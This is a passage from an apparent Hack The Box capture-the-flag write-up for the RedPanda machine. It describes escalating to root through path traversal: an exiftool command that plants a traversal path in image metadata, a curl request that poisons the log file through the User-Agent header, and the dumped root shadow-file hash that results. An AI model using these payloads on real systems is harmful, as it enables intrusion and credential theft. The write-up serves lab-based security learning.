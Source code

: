 The `../` are meant to undo the path to the static files:

```java
String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
```

Then to trigger the processing of this XML, the target image itself has to store the path to the credits file:

```shell
exiftool -Artists=../home/woodenk/apehex payloads/greg.jpg
```

Finally, let's poison the log file and add our own field to the path. This way, `root.jpg` will have a logged view:

```shell
curl -i -s -k -X $'GET' \
    -H $'User-Agent: greg||/../../../../../../../home/woodenk/greg.jpg' \
    $'http://10.10.11.170:8080/img/greg.jpg'
```

It has worked:

```shell
cat /opt/panda_search/redpanda.log 
# 200||10.10.16.4||greg||../../../../../../../tmp/root.jpg||/img/greg.jpg
```

Ok, you have to be patient for this one! I literally had time to fetch food before the server updated my XML...

> `root:$6$HYdGmG45Ye119KMJ$XKsSsbWxGmfYk38VaKlJkaLomoPUzkL/l4XNJN3PuXYAYebnSz628ii4VLWfEuPShcAEpQRjhl.vi0MrJAC8x0:19157:0:99999:7:::`

[acunetix]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[author-profile]: https://app.hackthebox.com/users/25507
[cve-3560-poc]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[hacktricks-ssti]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java
[hacktricks-xxe]: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file
[panda-stats]: images/panda-stats.png
[panga-search]: images/panga-search.png
[spring-boot-template-engine]: https://www.baeldung.com/spring-template-engines#thymeleaf
